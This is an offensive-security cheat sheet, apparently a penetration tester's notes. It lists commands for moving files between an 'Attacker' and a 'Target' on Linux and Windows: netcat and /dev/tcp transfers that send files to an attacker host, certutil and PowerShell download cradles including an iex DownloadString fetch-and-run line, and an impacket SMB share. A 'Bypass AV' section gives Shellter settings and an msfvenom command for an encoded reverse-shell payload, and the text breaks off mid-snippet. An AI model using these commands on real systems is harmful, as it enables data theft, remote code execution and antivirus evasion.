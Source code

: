 ### File Transmission - Linux

* HTTP
  - Attacker
    - `python3 -m http.server 80`
  - Target
    - `wget http://{IP}/{file}`
    - `curl http://{IP}/{file} -o {file}`
* Netcat
  - Attacker
    - `nc -lvnp {PORT} > {file}`
  - Target
    - `nc -nv {IP} {PORT} < {file}`
* /dev/tcp
  - Attacker
    - `nc -lvnp {PORT} > {file}`
  - Target
    - `cat {file} > /dev/tcp/{IP}/{PORT}`

-----

### File Transmission - Windows

- HTTP
	- Attacker
		- `python3 -m http.server 80`
	- Target
        - `certutil -urlcache -f {URL} {File_name}`
* PowerShell Download Commands
```
powershell wget -UseBasicParsing http://<IP>:<Port>/<Filename> -OutFile %temp%/<Filename>

powershell -c "Invoke-WebRequest -Uri 'http://{IP}/{FileName}' -OutFile '%temp%\{FileName}'" 

powershell iex (New-Object Net.WebClient).DownloadString('http://{IP}/{Filename}')

powershell "(New-Object System.Net.WebClient).Downloadfile('http://<IP>:<Port>/<Filename>','<Filename>')"
```
- SMB
  - Attacker
    - `impacket-smbserver meow . -smb2support`
  - Target
    - `copy \\{IP}\meow\{file} {file}`
- https://blog.ropnop.com/transferring-files-from-kali-to-windows/

-----

### Bypass AV

- Shellter
    - Auto Mode : A
    - PE Target : `{whoami.exe}`
    - Stealth mode : N
    - Custom : C
    - Payload : `{raw_file}`
        - `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -e x86/shikata_ga_nai -f raw -o {FILE}.raw`
    - DLL Loader : N
- meow.exe
    - Use vscode to compile `CTRL + SHIFT + B`
    - Change tasks.json task name
        - tasks.json
         ```json=
         {